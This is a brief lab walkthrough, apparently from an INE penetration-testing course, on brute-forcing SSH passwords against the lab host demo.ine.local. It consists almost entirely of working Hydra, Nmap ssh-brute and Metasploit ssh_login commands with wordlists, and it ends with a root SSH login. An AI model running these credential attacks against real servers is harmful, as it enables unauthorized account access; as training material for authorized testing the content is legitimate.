# Online Brute Force & Password Cracking

### Hydra

-l USERNAME<br>
-P PASSWORD_LIST
```
hydra -l "student" -P /usr/share/wordlists/rockyou.txt.gz ssh://demo.ine.local
```

![1.1](./imgs/1.1.png)

### Nmap

-p PORT
```
echo "administrator" > user.lst
nmap -p 22 --script ssh-brute --script-args user="administrator",passdb=/usr/share/nmap/nselib/data/passwords.lst demo.ine.local
```

![2.1](./imgs/2.1.png)

### Metasploit

```
use auxiliary/scanner/ssh/ssh_login
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set RHOSTS demo.ine.local
set RPORT 22
set VERBOSE true
set STOP_ON_SUCCESS true
exploit
```

![3.1](./imgs/3.1.png)

```
ssh root@demo.ine.local
```

![3.2](./imgs/3.2.png)